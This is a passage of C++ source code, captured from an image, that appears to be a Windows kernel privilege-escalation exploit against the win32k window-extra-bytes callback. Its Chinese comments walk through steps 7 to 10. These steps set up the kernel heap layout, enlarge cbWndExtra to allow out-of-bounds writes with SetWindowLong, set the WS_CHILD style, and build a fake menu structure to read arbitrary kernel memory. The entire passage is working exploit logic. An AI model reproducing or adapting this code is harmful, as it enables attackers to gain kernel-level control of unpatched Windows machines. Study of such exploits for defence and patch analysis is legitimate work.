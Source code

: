 ```cpp
            }
            if (g_hWnd[1] != NULL) {
                DestroyWindow((HWND)g_hWnd[1]);
 
                if (hMenu != NULL) {
                    DestroyMenu(hMenu);
                }
                if (hHelpMenu != NULL) {
                    DestroyMenu(hHelpMenu);
                }
            }
        }
        dwpWnd0_to_pWnd1_kernel_heap_offset = 0;
        // end of 7.6
    }
    if (dwpWnd0_to_pWnd1_kernel_heap_offset == 0) {
        std::cout << "Memory layout fail. quit" << std::endl;
        system("pause");
        return 0;
    }
    // end of 7
 
    // 8. 创建窗口2，绑定窗口类Class2，受MyxxxClientAllocWindowClassExtraBytes的影响：
    //   1）窗口2的扩展内存是直接分配在内核堆上的
    //   2）ptagWND2->dwExtraFlag 已经加上了 0x800
    //   3）之后SetWindowLong使用ptagWND2->dwExtraBytes偏移寻址
    //   4）ptagWND2->dwExtraBytes = g_dwpWndKernel_heap_offset0 = ptagWNDK0 - kernel_heap_base_addr
    HWND hWnd2 = CreateWindowEx(NULL, L"Class2", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, NULL, hInstance, NULL);
    PVOID pWnd2 = fHMValidateHandle(hWnd2, 1); // Get leak kernel mapping desktop heap address
    // end of 8
 
    // 9. 将ptagWNDk0->cbWndExtra调成0x0FFFFFFFF，避免之后越界写的时候偏移超出范围导致失败
    //    1）为什么不直接在注册窗口类的时候直接设置成0x0FFFFFFFF？
    //       因为调用CreateWindowEx时会分配cbWndExtra大小的内存，不想内存撑爆就得通过SetWindowLong进行越界修改
    SetWindowLong(hWnd2, g_cbWndExtra_offset, 0x0FFFFFFFF); //Modify cbWndExtra to large value
    // end of 9
 
    /* 到此，就可以利用SetWindowLongPtr和窗口0对内核堆空间进行越界写了，下面是关于如何利用窗口1读取任意内核堆地址*/
 
    // 10. 构造一个菜单结构g_pMyMenu，构造这个的原因有以下几点：
    //     1）ReadKernelMemoryQQWORD中会利用g_pMyMenu + 0x58进行内核数据任意读
    //     2）利用SetWindowLongPtr和g_pMyMenu可以泄漏内核地址出来
    {
        // 10.1 设置窗口1样式属性WS_CHILD，这是进行10.3操作的必要条件
        ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
        ululStyle |= 0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify add style WS_CHILD
        // end of 10.1
 
        // 10.2 构造g_pMyMenu结构
        g_pMyMenu = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0xA0);
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x98) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x20);
        **(ULONG_PTR**)((PBYTE)g_pMyMenu + 0x98) = g_pMyMenu;
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x200);
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x8); //rgItems 1
        *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) + 0x2C) = 1; //cItems 1
        *(DWORD*)((PBYTE)g_pMyMenu + 0x40) = 1;
```